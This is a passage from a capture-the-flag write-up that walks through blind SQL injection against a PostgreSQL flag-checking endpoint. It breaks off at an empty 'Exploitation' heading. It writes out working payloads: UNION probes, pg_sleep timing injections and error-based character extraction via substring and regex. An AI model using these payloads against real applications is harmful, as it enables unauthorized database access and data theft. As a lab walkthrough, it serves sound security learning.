 ```ERROR: Flag should start with Securinets{ and end with } (SQLSTATE P0001)```
```"ERROR: relation \"flag\" does not exist (SQLSTATE 42P01)"```

So, no `flag` table. We bet on `tasks` since it part of the `REST API` url, so we try `Securinets{}') union select 1 from tasks --` and we get this response:
```"Wrong flag"```

So we're on the right track, still we want the column name, where we bet on `flag`, try `Securinets{}') union select 1 from tasks where flag is not null --` and we get this response:
```"Wrong flag"```

So we know the table name and the column name. Now since it is a blind SQL injection, we try a simple `sleep` function to see if we are getting a response from the server, try `Securinets{}') union select sleep(5) --` and we get this response:
```"ERROR: function sleep(integer) does not exist (SQLSTATE 42883)"```

So we can't use the `sleep` function, Assuming it's a different database, we try `Securinets{}') union select pg_sleep(5) --` and we get this response:
```"Wrong flag"```

but we can use the `pg_sleep` function, try `Securinets{}') union select pg_sleep(5) --` and we get this response:
```"ERROR: UNION types integer and void cannot be matched (SQLSTATE 42804)"```

Which means that we can use `pg_sleep` but it does not return a number like `sleep` does, and based on Google its a void function. An option is to wrap it inside where as "it should not be null", like: `Securinets{}') union select 1 from tasks where pg_sleep(5) is not null --` and we get this response:
```"Wrong flag"``` 

The response took around 6 seconds, which means it did sleep for 5 seconds, so we can use it.

Trying to trigger an error, since we can do so, we can either use the divide by zero approach, or since we already have an error regarding the flag format, we can use it in this context and pass `Securinets{}` if a condition is true, otherwise we pass `Securinets{` and cause the error to happen.

Based on the task description in the platform, the flag format is `Securinets{[a-zA-Z0-9_]+}` so it is either an alphanumeric string mixed with underscores, wrapped inside `Securinets{}`. 

Knowing that the first character of the flag is `S`, we can try to use the `substring` function to get the first character of the flag, then we can test with this payload that checks if its a uppercase letter: `Securinets{' || (select '}' from tasks where substring(flag, 1, 1) ~ '^[A-Z]+$') || '` and we get this response:
```"Wrong flag"```

Which means it passed, testing if it's a number
`Securinets{' || (select '}' from tasks where substring(flag, 1, 1) ~ '^[0-9]+$') || '` and we get this response:
```"ERROR: Flag should start with Securinets{ and end with } (SQLSTATE P0001)"```

So we know that our payload is working correctly.

Knowing that the order of `S` is 18, we can try to sleep that amount to see if we can estimate the range of the characters, with the `ascii` method and `lower`. The payload will be:
`Securinets{}') union select 1 from tasks where pg_sleep(ascii(lower(substring(flag, 1, 1))) - ascii('a')) is not null --`, and we get our response after -in my case- `18.88s`.

So pretty close, we can work on the interval [nbr of seconds - 2 or 3, nbr of seconds] to guess the character.

You can see that we have tested multiple payloads at this point, from causing errors and trying `pg_sleep`... My goal is that the final script will be used as optimized as possible instead of just bruteforcing the whol array of characters.

## Exploitation

```